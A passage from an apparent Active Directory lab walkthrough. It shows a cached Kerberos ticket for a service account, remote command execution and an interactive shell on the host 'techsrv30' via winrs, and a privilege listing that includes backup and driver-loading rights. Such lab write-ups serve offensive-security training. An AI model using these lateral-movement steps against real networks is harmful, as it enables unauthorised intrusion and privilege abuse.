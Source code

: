 `klist`:
```
Current LogonId is 0:0x5dbd08

Cached Tickets: (1)

#0>     Client: techservice🎭 @ TECH.FINANCE.CORP🏛️
        Server: krbtgt📌/TECH.FINANCE.CORP @ TECH.FINANCE.CORP
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 3/11/2025 11:16:55 (local)
        End Time:   3/11/2025 21:16:55 (local)
        Renew Time: 3/18/2025 11:16:55 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:techsrv30.tech.finance.corp cmd /c "set computername && set username"`:
```
COMPUTERNAME=TECHSRV30🖥️
USERNAME=techservice👤
```
🚩

`winrs -r:techsrv30.tech.finance.corp cmd`:
```
Microsoft Windows [Version 10.0.17763.2452]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\techservice>
```
🚀

![techsrv30 | techservice](https://custom-icon-badges.demolab.com/badge/techsrv30-techservice-64b5f6?logo=windows11&logoColor=white)

`whoami /priv`:
```
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
```